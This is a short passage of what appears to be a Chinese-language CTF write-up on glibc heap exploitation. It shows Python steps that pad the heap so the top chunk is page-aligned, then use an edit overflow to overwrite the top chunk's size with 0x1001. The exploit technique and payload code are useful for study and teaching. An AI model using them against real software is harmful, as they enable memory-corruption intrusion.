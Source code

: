 由于需要页页对齐，0x291应该是系统申请的，我们需要申请一个和前面堆块互补的，使top chunk 的起始位 是 (top_chunk_addr  & 0xFFF)==0x000 也就是4k对齐，保证这样之后，我们在去接着下面的操作.

```python
size = 0x1000-0x290-0x10
add(0,size)
```

‍

![image](assets/image-20230731141611-40wsiae.png)

如何利用 edit 溢出，修改top chunk 的size

```python
pay = b'A' * (size)
pay += p64(0) + p64(0x1001)
edit(0,len(pay),pay)
```

‍
